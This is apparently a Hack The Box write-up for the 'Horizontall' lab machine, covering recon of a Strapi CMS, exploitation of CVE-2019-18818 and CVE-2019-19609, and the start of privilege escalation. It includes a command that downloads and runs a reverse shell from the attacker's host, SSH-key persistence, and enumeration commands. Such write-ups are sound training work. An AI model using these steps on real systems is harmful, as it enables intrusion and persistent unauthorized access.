# [Horizontall](https://app.hackthebox.com/machines/Horizontall) by [Wail99](https://app.hackthebox.com/users/4005)

```bash
IP = 10.10.11.105
Difficulty: Easy 
Machine OS: Linux
Learning Platform: hackthebox.eu
Finished on: Arch Linux
```

## **Reconnaissance**

### *Scoping and Preparation*

* I used my tool [CTFRecon](https://www.github.com/hambyhacks/CTFRecon) to automate directory creation, network scanning, web directory brute-forcing and adding entry to `/etc/hosts` file.

* To use [CTFRecon](https://www.github.com/hambyhacks/CTFRecon):

    ```bash
    1. git clone https://www.github.com/hambyhacks/CTFrecon
    2. cd CTFRecon
    3. chmod +x ctfrecon.sh && cp ctfrecon.sh ../ 
    #to move ctfrecon.sh to your working directory.
    4. sudo ./ctfrecon.sh [IP] [DIRECTORY NAME] [PLATFORM] [WORDLIST] 
    #platform refers to hackthebox(htb) or tryhackme(thm). Wordlist is used for GoBuster directory brute-forcing.
    ```

### *Preliminary Enumeration via nmap*

#### Table 1.1: nmap Results

PORT | STATUS | SERVICE | VERSION
:---: | :---: | :---: | :---:
22/tcp | Open | SSH (Secure Shell) |  OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp | Open | HTTP (HyperText Transfer Protocol) | nginx 1.14.0 (Ubuntu)

Machine OS: Based on OpenSSH version, machine is [Ubuntu Bionic](https://launchpad.net/ubuntu/+source/openssh/1:7.6p1-4ubuntu0.5).

## Enumeration

### *Manual Web Enumeration*

Looking at the webpage at port 80, we are greeted by this webpage below.



We can also look through the source code of the page.



We can check for ``.js`` files in the source code to see if there is something interesting in it.



Checking the ``app.c68eb462.js`` file, we can see that is obfuscated, meaning the JavaScript file is written in a way that is not human readable.


We can use [Beautifier.io](https://beautifier.io/) to make it more readable. Copy the whole content of ``app.c68eb462.js`` and paste it in the space provided in the web app.



We can also found it by manual checking the ``.js`` file.



Also make sure to add ``api-prod.horizontall.htb`` to ``/etc/hosts`` file.

*Note: This is why manual enumeration is important!*

We can now look at the subdomain of the webpage: ``api-prod.horizontall.htb``.



Looking at the source code of ``api-prod.horizontall.htb``, we found out that it is does not help us much.



We can also look at the web technologies used in ``api-prod.horizontall.htb`` using [Wappalyzer](https://www.wappalyzer.com/).



We can see that the web server is using [Strapi CMS](https://strapi.io).

Let's enumerate more using automated tools.

### *Web Enumeration using GoBuster*

We need to find a way to enumerate the webpage further, this time we use automated tools to help us find endpoints in ``api-prod.horizontall.htb``.

Using [GoBuster](https://github.com/OJ/gobuster), we found some interesting directories.



As we can see above, there is an admin directory! Let's try to navigate to that.



Nice! A login page. We can try to do some basic SQL injection. I have only done manual testing before I tried to search ``strapi`` on Google.



*Tip: When in doubt, search it in Google.*

### *Possible Exploits*

We recently found out that ``api-prod.horizontall.htb`` is running ``strapi CMS(Content Management System)``.

*Google search: ``strapi CMS exploit``*

First search result gives us an unauthenticated RCE on strapi CMS! But we need to know what version the CMS is running.

I got stucked here for a bit, but I tried to read the [documentation](https://strapi.io/documentation/developer-docs/latest/getting-started/introduction.html).

I decided to read the python exploit script from [exploit-db](https://www.exploit-db.com/exploits/50239) and searched it on Google. It is classified as [CVE-2019-18818](https://github.com/advisories/GHSA-6xc2-mj39-q599), [CVE-2019-19609](https://packetstormsecurity.com/files/163940/Strapi-3.0.0-beta.17.7-Remote-Code-Execution.html).

[CVE-2019-18818](https://github.com/advisories/GHSA-6xc2-mj39-q599) is an unauthenticated RCE (Remote Code Execution) which allows an attacker to reset an admin's password without providing valid password reset token.

[CVE-2019-19609](https://packetstormsecurity.com/files/163940/Strapi-3.0.0-beta.17.7-Remote-Code-Execution.html) is an authenticated RCE which allows attackers inject arbitrary shell commands because of improper input sanitization.

Reading the exploit script in [exploit-db](https://www.exploit-db.com/exploits/50239), the script is sending GET request to ``/admin/init``. We can try to see if it is present in the web server.



Cool! We confirmed that the version is indeed ``3.0.0-beta.17.4``.

## Exploitation

*Steps to reproduce:*

1. Go to Exploit-db and copy [this](https://www.exploit-db.com/exploits/50239) script.
2. Open a text editor and save it as ``CVE-2019-18818.py`` (or any filename you like).
3. On your terminal, type:

    ``python3 CVE-2019-18818.py api-prod.horizontall.htb``

4. Copy the [JWT](https://jwt.io/) token produced by the script and save it for later. Output should be like this:

    

5. We can now login on the web server.

    

6. Looking back at our status, we are now authenticated as admin. We can use the exploit script [CVE-2019-19609](https://packetstormsecurity.com/files/163940/Strapi-3.0.0-beta.17.7-Remote-Code-Execution.html) to get a shell on machine.

7. On your terminal,type:

    ``python3 strapi17-4_RCE.py http://api-prod.horizontall.htb {JWT_TOKEN_HERE} 'wget http://{YOUR_IP}:{PORT}/{REVERSE_SHELL_FILE};chmod +x s.sh;bash s.sh' {YOUR_IP}``

    

8. Make sure http server and netcat listener are on before you hit enter.

9. Reverse shell should be downloaded and also the reverse shell should pop up.

    

## Privilege Escalation / Post-Exploitation

### *Internal Enumeration*

SSH port is open so I assume there is ``ssh-keygen`` binary in the machine.

To make sure we have access on the box even it errors out, we need to setup our ssh keys on ``strapi`` user.

* Syntax: ``ssh-keygen`` and keep defaults for easy access.

Copy **your** SSH public key and add it on the machine's ``/opt/strapi/.ssh/authorized_keys``.

We found a file named ``database.json`` on ``/myapi/config/environments/development/``



We don't know what is the password of our current user ``strapi``. We must enumerate further more.

#### Table 1.2: Checklist for Linux Internal Enumeration

COMMAND | DESCRIPTION
:---: | :---:
``ss -tlnp``  | lists all sockets (``-t = tcp``) (``-l = listening``) (``-n = numeric``) (``-p = processes``)
``netstat -tulnp`` | &nbsp; |  &nbsp;
``sudo -l`` | lists all binaries/files/programs the current user has ``sudo`` permissions. (might require password)
``find / -type f -perm -4000 2>/dev/null`` | finds files in ``/`` directory that has [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) bit set. If any, consult [GTFOBins](https://gtfobins.github.io/).
``uname -a`` | prints system information (-a = all)

*Notes: For more information about the commands look [here](https://explainshell.com)*

*Tip: When nothing else makes sense, try to use [LinPEAS](https://github.com/carlospolop/PEASS-ng) ([winPEAS](https://github.com/carlospolop/PEASS-ng) for windows machines.).*

### *Vertical Privilege Escalation*

I got stucked here for a bit because I got on the rabbit hole finding the password for ``strapi`` user.

I also read some comments on the [forum](https://forum.hackthebox.com/t/official-horizontall-discussion/243500) but I got stucked again. I read the comments again and again and I got what it needs to do.

* **ALWAYS** check if there are running services and port which does not show on nmap scan but open on the machine.

    Syntax: ``ss -tlnp``



We found out that Laravel version is vulnerable to RCE by searching the version number in Google.



First, we need to login again to the ssh server with port forwarding so we can see the send request through port 8000. To do this:

* Syntax: ``ssh {LOCAL_PORT}:127.0.0.1:{REMOTE_PORT} strapi@horizontall.htb``

